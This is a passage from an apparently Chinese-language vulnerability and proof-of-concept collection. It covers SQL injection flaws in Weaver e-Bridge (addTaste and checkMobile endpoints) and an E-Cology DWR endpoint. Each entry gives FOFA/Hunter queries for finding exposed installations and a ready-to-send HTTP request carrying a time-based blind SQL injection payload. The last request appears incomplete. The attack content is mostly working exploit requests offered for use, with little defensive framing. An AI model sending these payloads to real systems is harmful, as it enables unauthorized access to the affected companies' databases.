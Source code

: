   
### 2.1.24泛微云桥 e-Bridge addTaste接口SQL注入漏洞  
  
e-Bridge 提供了一套全面的办公自动化工具，包括文档管理、流程管理、协同办公、知识管理、移动办公等功能。它的核心理念是将企业内部的各种业务流程数字化，并通过云端技术实现跨部门、跨地域的协同办公和信息共享。该系统 addTaste接口存在SQL注入漏洞，通过此漏洞攻击者可获取企业数据库敏感数据。  
- fofa  
app="泛微-云桥e-Bridge"  
- hunter  
app.name="泛微云桥 e-Bridge OA"  
- poc  
```
GET /taste/addTaste?company=1&userName=1&openid=1&source=1&mobile=1%27%20AND%20(SELECT%208094%20FROM%20(SELECT(SLEEP(9-(IF(18015%3e3469,0,4)))))mKjk)%20OR%20%27KQZm%27=%27REcX HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: */*
Cookie: EBRIDGE_JSESSIONID=CAE1276AE2279FD98B96C54DE624CD18; sl-session=BmCjG8ZweGWzoSGpQ1QgQg==; EBRIDGE_JSESSIONID=21D2D790531AD7941D060B411FABDC10
Accept-Encoding: gzip
SL-CE-SUID: 25
```  
  
延迟时间大于5秒  
  
漏洞来源：  
[https://mp.weixin.qq.com/s/Ej26hywx4po4sj3dSAVI_Q](https://mp.weixin.qq.com/s?__biz=MzkxNzUxMjU5OQ==&mid=2247485065&idx=1&sn=5e280ee6cbdb82feb3f6c18fc3a0d168&scene=21#wechat_redirect)  
  
### 2.1.25泛微云桥e-Bridge系统checkMobile存在SQL注入漏洞  
  
泛微云桥e-Bridge 是一款办公自动化工具，主要提供文档管理、流程管理、协同办公、知识管理和移动办公等功能。它的目标是将企业内部的各种业务流程数字化，并通过云端技术实现跨部门、跨地域的协同办公和信息共享。该产品 checkMobile接口存在SQL注入漏洞，通过此漏洞攻击者可获取企业数据库敏感数据。  
- fofa  
app="泛微-云桥e-Bridge"  
- poc  
```
POST /taste/checkMobile?company=1&mobile=1%27%20AND%20(SELECT%208094%20FROM%20(SELECT(SLEEP(5-(IF(18015%3E3469,0,4)))))mKjk)%20OR%20%27KQZm%27=%27REcX&openid=1&source=1&userName=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```  
###  2.1.26某微 E-Cology 某版本 SQL注入漏洞  
```
POST /dwr/call/plaincall/DocDwrUtil.ifNewsCheckOutByCurrentUser.dwr HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Content-Length: 191
Accept-Encoding: gzip
Connection: close
Content-Type: text/plain

callCount=1
page=
httpSessionId=
scriptSessionId=
c0-scriptName=DocDwrUtil
c0-methodName=ifNewsCheckOutByCurrentUser
c0-id=0
```